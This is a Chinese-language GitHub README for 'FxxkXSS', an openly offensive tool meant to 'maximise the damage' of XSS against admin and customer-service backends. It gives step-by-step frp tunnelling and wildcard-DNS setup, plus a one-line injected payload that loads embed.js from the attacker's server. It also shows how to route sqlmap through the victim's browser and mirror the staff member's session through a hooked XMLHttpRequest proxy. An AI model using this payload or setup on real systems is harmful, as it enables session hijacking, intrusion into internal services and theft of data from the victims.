



# fuckxss

> 这是一个用来尽可能最大化xss危害的小工具，废话不多说了看下面的介绍吧~

## 直接上手跑Release

#### 需要准备的

1. 一台公网服务器（vps）
2. 一个有证书（非必要）且能进行泛解析的域名
3. frp或其他内网穿透服务


如果要傻瓜式一点的可以看视频：[【分享】FxxkXSS，一个深入利用后台XSS的工具](https://www.bilibili.com/video/BV1nh411h7pZ)


#### 下载

先去release下一下已经编译好了的，这里只编译了win平台的，对于Mac或者Linux可能需要看一下下面的直接跑源码，→ [release](https://github.com/Yeuoly/FxxkXSS/releases/tag/1.0.0)

下到的应该是一个压缩包，我们将其解压，然后找到里面的fxxkxss.exe，点开！

看到的应该是这样的




#### 配置frp

然后我们需要一个跑在有公网ip的服务器上的frp，配置服务器上的frp为如下

```yaml
[common]
token = xxxx
bind_port = 33333
bind_addr = 0.0.0.0
```

token可以看做一个秘钥一样的东西，这样别人就不能轻易连接自己的frp服务，bind_port是frp用于和用户通讯的端口，0.0.0.0即默认对所有ip

然后启动

```bash
./frps -c frps.ini
```

然后在跑fxxkxss的机器上启动frp，配置如下

```yaml
[common]
server_addr = 服务器的ip
server_port = 之前的端口 #33333

[xssclient]
type = tcp
local_ip = 127.0.0.1
local_port = 10091
remote_port = 25567

[xssstatic]
type = tcp
local_ip = 127.0.0.1
local_port = 10092
remote_port = 25568
```

启动

```bash
./frpc -c frpc.ini
```


#### 域名解析

假设我们现在的域名是 xss.com，那么新建一个解析 xss.xss.com -> 你的vps<br>

新建一个解析 *.localhost.xss.com -> 127.0.0.1 （重点，要求一个到127.0.0.1的泛解析）


#### 配置fxxkxss

然后我们修改fxxkxss的配置为如下



xssclient的remote_port与WS外网端口对应，local_port与WS内网端口对应<br>

xssstatic的remote_port与资源外网端口对应，local_port与资源外网端口对应 <br>

资源域名填上面的 xss.xss.com，代理域名填localhost.xss.com<br>

如果有需要的话，把HTTPS/WSS打开，但是一定要给出证书！<br>

万一出现一启动就报错的问题，将下面这个文件删了再重启：<br>

C:\Users\\你的用户名\AppData\Roaming\fuckxss\config.json


#### 开始玩吧~

准备好一个要被xss的网页，并准备好一句话xss：

```javascript
document.body.appendChild(document.createElement('script')).src='http[s]://资源域名:25568/embed.js'
```

当执行了这么一句话以后，我们就可以在下面这个地方发现被xss的浏览器



且这里可以发现其编号为0，那么我们可以尝试着向

http.80.www.baidu.com.s0.localhost.xss.com:10093发一个请求看看，fxxkxss会将这个请求解析为http://www.baidu.com:80，然后转化为下面这段代码，最后丢给浏览去执行，并返回结果

```javascript
var xml = new XMLHttpRequest() || new ActiveXObject('MicroSoft.XMLHTTP');
xml.open('GET', 'http://www.baidu.com:80')
xml.send()
xml.onreadystatechange = function(){
    //do something
}
```


那么假设客服后台有一个SQL注入，但是用xss注入数据麻烦的一批，那么就可以用到fxxkxss的这个功能，假设客服后台存在api.xxx.com/getinfo存在注入，那么我们用sqlmap跑这个url：http.80.api.xxx.com.s0.localhost.xss.com:10093/getinfo<br>


那么问题来了，怎么找注入呢？可以用到fxxkxss的代理模块，首先使用

```javascript
window.location.href
```

获取客服后台地址（假设为api.xxx.com/home），然后使用指令

```javascript
/generate/proxy_url http://api.xxx.com/home
```

我们就能获取到一个代理链接，http.80.api.xxx.com.s0.xss.com:10093/home<br>

我们在这个链接上再加上?fxxkxss_proxy=true，即http.80.api.xxx.com.s0.xss.com:10093/home?fxxkxss_proxy=true<br>

再拿浏览器去直接访问就好了，不出意外的话会得到一个跟客服后台一模一样的界面，客服能看到什么你就能看到什么， 你摁了什么按钮就相当于客服用了什么按钮，这个功能的底层原理就是 hook XMLHttpRequest配合fxxkxss的代理

## 跑源码

```bash
# 安装依赖
npm install
yarn
cnpm install #（慎用）

# 以开发模式启动，请保持9080端口不被占用
npm run dev

# 编译
npm run build

```

---

#### [教程点我](https://ylday.srmxy.cn/post-page?pid=c6fc485707af90bd34b57393d8e6b812)
